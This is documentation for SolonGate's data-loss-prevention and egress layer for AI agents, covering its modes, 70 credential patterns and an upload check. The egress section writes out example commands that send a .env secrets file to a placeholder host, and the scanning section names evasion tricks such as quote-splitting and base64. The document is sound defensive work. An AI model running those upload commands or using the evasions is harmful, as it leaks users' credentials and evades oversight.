

# DLP and egress

Policy rules decide a call by its shape. This layer decides it by its content:
when a call carries a credential, or would upload a file that holds one, the
configured mode says what happens.

Four things use the same pattern list, so a secret means the same thing
everywhere: the guard, the post tool hook, the prompt shim and the MCP proxy.

## The four modes

```bash
solongate dlp mode off|detect|redact|block
solongate dlp show
```

| Mode | On disk | What happens |
| --- | --- | --- |
| `off` | nothing | Nothing is scanned. |
| `detect` | `dlpObserve` | The hit is recorded. The call runs, unchanged. |
| `redact` | `dlpRedact` | The secret is masked so the model does not see it. The call runs. |
| `block` | `dlpBlock` | The call is refused. Egress checking turns on with this mode. |

Exactly one of those three keys is ever on disk, so a mode cannot accidentally do
a stronger mode's work.



That sentence is there because it was once false. `detect` used to write
`dlpRedact`, so it masked every secret it found, which is redacting. `block` used
to write both, so the only difference between them was whether an argument hit
also refused the call, and a read whose secret was inside the file behaved
identically in both: allowed, masked, and recorded as clean. Somebody asking for
detect got redaction they had not asked for, and somebody asking for block got
redaction where they expected a refusal.

Each mode now does the thing its name says.

### `block` is strict, deliberately

In `block` mode, a read of **any** file holding a secret is refused outright. The
agent cannot work with that file at all.

This is the mode's whole point, and it costs something. The alternative, letting
the read through with the value masked, is what `redact` is for. A mode named
`block` that masked instead was the failure that behaviour was trying to avoid,
wearing a different name.

### `redact` depends on what your client can do

Masking a secret that sits inside a file the agent reads needs somewhere to
rewrite the result.

- A client with a post tool stage that can rewrite tool output gets masking
  there.
- A client without one gets the file redacted into a temporary copy, with the
  read pointed at the copy.
- **Masking that cannot be applied becomes a block.** The safe direction, and a
  different experience, so check [clients.md](clients.md) for which case you are
  in.

## What is scanned

Three views of every call, because a pattern match alone is easy to walk past:

1. **The text as it arrived.** Arguments, the command, and for a read, the file's
   content.
2. **The text with shell quoting removed.** `"AKIA""3XZ9..."`, `'AKIA'\''...'`
   and `AKIA\3XZ9` all collapse back to one contiguous run, so splitting a secret
   across string literals does not hide it.
3. **Base64 decoded tokens.** Any base64 looking run of 12 characters or more is
   decoded and the bytes are scanned, so `echo <base64> | base64 -d` does not
   either. Bounded to 60 tokens per call, so a megabyte of base64 shaped noise
   cannot turn a per call scan into a CPU sink.

The floor is 12 characters rather than 16 because 16 had a measured hole: base64
of an eleven digit national id is 15 characters plus padding, which sat exactly
one character above the most important value this scanner looks for.

Content that has **already** been redacted is not rescanned. The marker left
behind carries the pattern name, so without that step a masked value would look
like a live secret, and a report containing one could never be written.

This is not exhaustive, and pattern matching never can be. It closes the two
obvious bypasses.

## The built in patterns

70 of them. Every one is a distinctive, vendor documented prefix, so a match is a
credential rather than a guess.

```bash
solongate dlp show                      # which are enabled
solongate dlp enable "AWS access key"
solongate dlp disable "JWT"
```

The **order** below is part of the contract: a scan reports the first match, so
two patterns that could both match one string are resolved by this list rather
than by chance.

<details>
<summary>All 70, in order</summary>

| | |
| --- | --- |
| 1 | AWS access key |
| 2 | Private key block |
| 3 | Anthropic key |
| 4 | OpenAI key |
| 5 | GitHub token |
| 6 | GitHub fine-grained PAT |
| 7 | GitLab token |
| 8 | Slack token |
| 9 | Stripe key |
| 10 | SendGrid key |
| 11 | Twilio key |
| 12 | npm token |
| 13 | JWT |
| 14 | Bearer token |
| 15 | Google API key |
| 16 | Slack webhook |
| 17 | Twilio account SID |
| 18 | Mailgun key |
| 19 | Mailchimp key |
| 20 | DigitalOcean token |
| 21 | Databricks token |
| 22 | Shopify token |
| 23 | Square token |
| 24 | Telegram bot token |
| 25 | Postman key |
| 26 | Doppler token |
| 27 | HashiCorp Vault token |
| 28 | New Relic key |
| 29 | Grafana token |
| 30 | Razorpay key |
| 31 | Linear key |
| 32 | Figma token |
| 33 | Atlassian token |
| 34 | Google OAuth token |
| 35 | Google OAuth refresh |
| 36 | Alibaba access key |
| 37 | Tencent secret id |
| 38 | Hugging Face token |
| 39 | Replicate token |
| 40 | Groq key |
| 41 | OpenRouter key |
| 42 | Perplexity key |
| 43 | xAI key |
| 44 | LangSmith key |
| 45 | Stripe webhook secret |
| 46 | Plaid token |
| 47 | Braintree token |
| 48 | Discord bot token |
| 49 | Discord webhook |
| 50 | Slack app token |
| 51 | Sentry DSN |
| 52 | Supabase token |
| 53 | PlanetScale token |
| 54 | PlanetScale password |
| 55 | Airtable token |
| 56 | Cloudinary URL |
| 57 | MongoDB SRV URI |
| 58 | Terraform Cloud token |
| 59 | PyPI token |
| 60 | RubyGems key |
| 61 | NuGet key |
| 62 | Docker Hub token |
| 63 | Notion token |
| 64 | Dropbox token |
| 65 | Sentry auth token |
| 66 | Contentful token |
| 67 | Typeform token |
| 68 | Pinecone key |
| 69 | WooCommerce key |
| 70 | PostHog key |

</details>

The same list lives in five places across the two implementations, and a
conformance case asserts all five agree. That case exists because the list once
ran 14 patterns against 70: a name missing from one copy stops being enforced
silently rather than erroring.

Missing a format that has a published prefix? That is a welcome and easy
contribution. There is an
[issue template](https://github.com/codeyevsky/solongate-oss/issues/new/choose)
for it.

## Custom patterns

```bash
solongate dlp add-custom --name "Acme deploy token" --re 'acme_pat_*'
solongate dlp remove-custom "Acme deploy token"
```

```json
"dlpBlock": {
  "patterns": ["AWS access key"],
  "custom": [
    { "name": "Acme deploy token", "re": "acme_pat_*" }
  ]
}
```

**Custom patterns are globs, not regular expressions**, despite the flag being
called `--re`. `*` means any run of non whitespace characters, which is the same
mechanic the policy layer uses, so learning one teaches all three. A run of
several stars collapses to one.

They sort after every built in pattern, so a built in name wins a tie.

A custom pattern that will not compile is skipped rather than taking the whole
layer down with it.

### Writing one that works

- **Anchor on a prefix.** `acme_pat_*` is a credential. `*token*` is a word that
  appears in source code.
- **A glob of only `*`** matches everything non whitespace, which will block
  essentially every call. The CLI will store it; your policy will then be
  unusable.
- **Test it before you rely on it.** Set `detect` mode, run your normal work for
  an hour, and read `solongate audit --signal dlp`. False positives are cheap to
  find this way and expensive to find in `block` mode.

## Egress: the upload check

On with `dlpBlock`.

A transfer command that would upload a local file holding a secret is refused.
This is the case pattern matching alone cannot catch, because the secret never
appears in the arguments or in the output:

```bash
curl --data-binary @.env https://somewhere/collect
scp .env host:/tmp
cat .env | curl -d @- https://somewhere/collect
```

The check reads the file the command names, including a positional one and one
piped in, and scans its content with the same patterns.

It resolves those paths against the **agent's working directory**, which is why
it is the one layer the MCP proxy does not carry: a proxy in front of a tool
server has no such directory, and the paths in a call belong to whatever machine
the upstream runs on. See [mcp-proxy.md](mcp-proxy.md).

## The prompt path

A tool call hook sees tool calls. It does not see your typed prompt, or whatever
the client sweeps into context on its own.

So a shell shim routes `claude` through a local proxy that masks the request body
on its way out. The response comes back untouched. It is installed with the
guard, and it uses the same patterns, including your custom ones.

Two things worth knowing:

- **`detect` mode does not mask here either.** It used to: the shim's config
  loader looked for `dlpRedact` or `dlpBlock`, found neither in detect mode, and
  fell back to masking with every built in pattern. The weakest mode was the most
  aggressive.
- **A machine with no DLP configured at all still masks everything** in the
  prompt path. That is a different answer from detect mode: a machine that has
  made no choice has no choice to respect, and it should still not leak its keys
  into a prompt.

## Reading what fired

```bash
solongate audit --signal dlp
solongate watch
solongate stats
```

The recorded entry names the pattern that fired, which is where that information
belongs: it describes one call and means something. The layer summaries in the
dataroom show the number of hits and the window instead, because a bar chart over
a single pattern compares nothing and reads as an emergency.

## Limits, stated plainly

- **Pattern matching cannot find a secret with no shape.** A password that looks
  like an English word, or a token format nobody has published a prefix for, is
  not detected. That is not a bug report, it is the boundary.
- **Three views, not every view.** Shell quoting and base64 are closed. A novel
  encoding is not.
- **The model's existing context is out of reach.** Anything swept in before
  SolonGate was installed is already there.
- **`block` mode costs you the file.** That is the trade, and `redact` is the
  other side of it.

If you find a way to get a pattern matching secret past the configured mode, that
is a vulnerability rather than a limit. Report it privately:
[SECURITY.md](../SECURITY.md).
